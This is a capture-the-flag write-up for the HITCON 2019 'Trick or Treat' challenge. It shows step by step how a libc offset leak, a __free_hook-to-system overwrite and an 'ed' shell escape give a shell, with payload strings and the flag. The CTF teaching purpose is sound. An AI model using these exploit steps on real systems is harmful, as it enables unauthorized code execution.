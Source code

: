 # CTFhitcon2019

## Instructions

Run `python treat.py` to run the local version. Run `python trick.py` for the remote version.

## Summary
We overwrite __free_hook__ with __system__. Then invoke __free__, which is now __system__, and pass in the argument "ed" to open the ed editor which allows us to get shell via !'/bin/sh'

## In depth write up

The disassembly of the file is as follows:

![Disassembly of the file](ida.png)

When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0
```

The program starts by asking for an input size to send to var7 = malloc(size). From now on I will refer to var7 as *mValue*
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55a29a156260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output
Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0
Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt `Offset & Value:`
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example `mValue[offset] = value`
The program asks for Offset & Value twice.
The first Offset and Value we send is `(libc_offset+free_hook)/8` for the offset and `(libcBase+system)` for the value.
For the Offset, we add together __libc_offset__ and __free_hook__ and then divide the sum by 8. We do this because we are already starting at __Magic__ so we need to add __libc_offset__ to get to the __libcBase__. Then we add the offset of __free_hook__ so that we are pinpointing to the address of __free_hook__. We divide by 8 because *mValue* is a QUADWORD. This means that every *mValue* is equivalent to 8 bytes (64 bits). The Value is __libcBase__ plus the offset of __system__. This points towards the __system__ call. The payload is as follows `payload = "%x %x" % ((libc_offset+free_hook)/8,(libcBase+system))`
After sending this payload, we have succesfully overwritten the __free_hook__ call with the __system__ call.
For our second call we need to call __freee__ in order to invoke our newly placed __system__ call. We can achieve this by sending 1024 of an arbitrary character as the offset to invoke __free__. When __free__ is invoked the argument passed to it is the value that was supposed to be set at the offset of *mValue*. For example
```
mValue[1024] = value
                 v
          free(value)
```
With our altered code it now looks like this
```
mValue[1024] = value
                 v
        system(value)
```
So, we can send a value to system as an argument. However, this value can only consist of valid hex values such as 0123456789abcdef. By running the script hexcommands.py we get the output:
```
ed
dd
df
c99
cc
c89
bc
dc
```
The command of interest is the __ed__ command. This launches the [ed](https://linux.die.net/man/1/ed) text editor.
So, for our second Offset & Value input we use `payload = ('1'*1024+' '+'ed')`
Now that we are in the ed editor all we need to do is send the command `!'/bin/sh'`.
After that, we can CAT out the flag by doing `CAT /home/trick_or_treat/flag`
This gives us the flag `hitcon{T1is_i5_th3_c4ndy_for_yoU}`
